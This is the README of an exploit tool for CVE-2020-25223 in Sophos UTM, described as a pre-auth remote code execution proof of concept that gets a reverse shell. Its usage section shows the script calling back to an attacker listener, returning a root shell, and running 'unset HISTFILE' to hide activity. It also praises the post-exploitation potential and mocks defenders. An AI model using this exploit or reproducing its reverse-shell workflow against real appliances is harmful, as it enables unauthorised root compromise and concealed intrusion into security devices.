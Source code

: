 # sophucked
CVE-2020-25223 RCE PoC, gets reverse shell. Pre-auth. Implemented this quickly as it was needed to unify some threat magnets. 


## Example Use:
```
# python sophucked.py https://x.x.x.x:4443 x.x.x.x 80
(+) starting handler on port 80
(+) Sending callback to x.x.x.x:80
(+) connection from x.x.x.x
(+) pop thy shell!
bash: no job control in this shell
utm:/var/confd # unset HISTFILE
unset HISTFILE
utm:/var/confd # id
id
uid=0(root) gid=0(root) groups=0(root)
utm:/var/confd # exit
exit
exit
*** Connection closed by remote host ***
# 
```

## Scanning/Detection
Not implemented in this, just use the [nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-25223.yaml).

## Post-exploitation notes
These have a python interpreter, and actually a very fully featured Linux environment available. Amazing potential for post-exploitation. 

## Blue team notes
I'm sure someone who cares can fill this in. Bitter (a subset of "blue team twitter") will probably do so shortly. I mean, it can't be that hard to detect an unencrypted reverse shell beaconing out from your Unified Threat Manager box right?

## References, etc.

Third party reference (bug details): https://www.atredis.com/blog/2021/8/18/sophos-utm-cve-2020-25223

Direct complaints to Sophos, who somehow thought passing user input to `open()` in Perl was a good idea in the 21st century. 
